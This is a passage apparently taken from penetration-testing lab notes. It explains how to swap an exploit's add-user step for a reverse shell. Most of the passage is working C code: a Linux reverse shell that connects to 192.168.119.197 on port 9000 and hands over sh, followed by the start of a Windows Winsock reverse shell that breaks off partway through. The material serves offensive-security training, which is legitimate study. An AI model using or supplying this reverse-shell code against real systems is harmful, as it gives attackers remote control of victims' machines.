 



**2.  Attempt to get a remote system shell rather than adding a malicious user.**

In order to get a remote shell we must simply edit our original exploit and replace the original code to add a new user with code that acts as a reverse shell. The code will be used:
c
```C
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
    int port = 9000;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("192.168.119.197");

    connect(sockt, (struct sockaddr *) &revsockaddr, 
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"sh", NULL};
    execve("sh", argv, NULL);

    return 0;       
}
```
c windows
```C
#include <winsock2.h>
#include <stdio.h>
#pragma comment(lib,"ws2_32")

WSADATA wsaData;
SOCKET Winsock;
struct sockaddr_in hax; 
char ip_addr[16] = "192.168.119.197"; 
char port[6] = "9000";            

STARTUPINFO ini_processo;

PROCESS_INFORMATION processo_info;

int main()
{
    WSAStartup(MAKEWORD(2, 2), &wsaData);
    Winsock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);


    struct hostent *host; 
    host = gethostbyname(ip_addr);
    strcpy_s(ip_addr, inet_ntoa(*((struct in_addr *)host->h_addr)));

```